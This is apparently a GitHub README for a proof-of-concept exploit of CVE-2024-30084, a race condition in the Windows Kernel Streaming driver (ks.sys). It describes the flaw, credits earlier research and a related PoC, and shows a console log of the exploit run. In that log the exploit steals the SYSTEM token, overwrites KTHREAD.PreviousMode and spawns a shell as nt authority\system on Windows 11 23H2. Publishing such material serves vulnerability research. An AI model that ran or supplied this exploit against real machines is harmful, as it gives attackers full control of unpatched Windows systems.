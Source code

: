 # CVE-2024-30084

**Title:** Windows Kernel-Mode Driver Elevation of Privilege Vulnerability  
**CVE-2024-30084:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-30084  
**Vulnerability Type:** Time-of-check Time-of-use (TOCTOU) Race Condition  
**Tested On:** ks.sys - 10.0.22621.2506    

## Description

CVE-2024-30084 is a privilege escalation vulnerability in the Microsoft Kernel Streaming driver (`ks.sys`) caused by a race condition in how user-supplied data is handled. The driver performs a second, unchecked read of a buffer after it has already been validated, introducing a time-of-check to time-of-use (TOCTOU) flaw. This allows modification of the input between the two accesses, leading the kernel to dereference attacker-controlled pointers and potentially execute arbitrary code in kernel mode, resulting in elevation of privileges to SYSTEM.

## Exploit

Tested on: Windows 11 23H2 (05-2024 Build)

```
PS C:\Users\h4x\Desktop> whoami
desktop-3rgmcon\h4x
PS C:\Users\h4x\Desktop> .\CVE-2024-30084.exe
[+] Successfully opened internal topology of an audio device!
[+] NT base address fffff8010fe00000
[+] Found EPROCESS of the current process FFFFD70BF11E70C0
[+] Found KTHREAD of the current thread FFFFD70BED9A4080
[+] Found EPROCESS of the system.exe FFFFD70BEA104040
[+] pFakeBitmapAddr = 0x0000000010000000
[+] Beginning race condition...
[+] Calling Kernel Streaming....
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22631.3593]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Acknowledgements

- The original research on Kernel Streaming was conducted by [Angelboy](https://x.com/scwuaptx), and it can be found [here](https://devco.re/blog/2024/08/23/streaming-vulnerabilities-from-windows-kernel-proxying-to-kernel-part1-en/).
- The [PoC](https://github.com/varwara/CVE-2024-35250/) was developed by Varwara, and the above PoC is based on it.
